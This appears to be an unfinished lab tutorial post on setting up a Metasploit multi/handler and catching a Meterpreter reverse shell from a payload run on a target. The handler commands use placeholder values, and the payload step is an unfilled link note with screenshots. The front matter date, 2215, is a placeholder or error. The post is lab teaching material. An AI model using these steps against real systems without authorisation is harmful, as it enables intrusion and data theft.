 +++
title = "Using Metasploit To Get A Reverse Shell"
description = "Simple Metasploit Attack on Target"
tags = [ "Metasploit", "Attack", "Reverse", "LAB" ]
date = "2215-09-01"
location = "127.0.0.1"
categories = ["Metasploit","LAB"]
slug = "Simple-Attack"
type = "post"
+++




So using the Metasploit Framework you can create a malicous payload (Meterpreter Reverse Shell) and then setup a handler to recieve this connection.
By doing this you have a shell on the target machine which you can then esclate priveilges, steal data or any other post exploition.


This images shows how reverse and bind shells work.

![MSFRBS](/img/Metasploit/RevShellBind.png)



First step is to setup a handler to recieve the reverse connection. This can be done using the Metasploit Framework as shown bellow.



### HANDLER

Metasploit handlers are best to use for meterpreter or most reverse shells.
Bellow is the code to set one up using metasploit.


```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
exploit

```

![MSFHLD](/img/Metasploit/Handler/MSFLPHD.png)



### PAYLOAD



Once the handler has been setup you will need to generate a malicous payload to run on the target machine.
Check out some common payloads with Msf Venom here  --- ADD LINK TO MSF VENOM----



![MSFHLD](/img/Metasploit/MsfVenom/MSFPG.png)


### REVERSE SHELL



Once exucuted on the Target machine your attacking machine will recieve the connecting and in this case giving you a Meterpreter reverse Shell.


![MSFHLD](/img/Metasploit/Handler/MSFLPHALL.png)

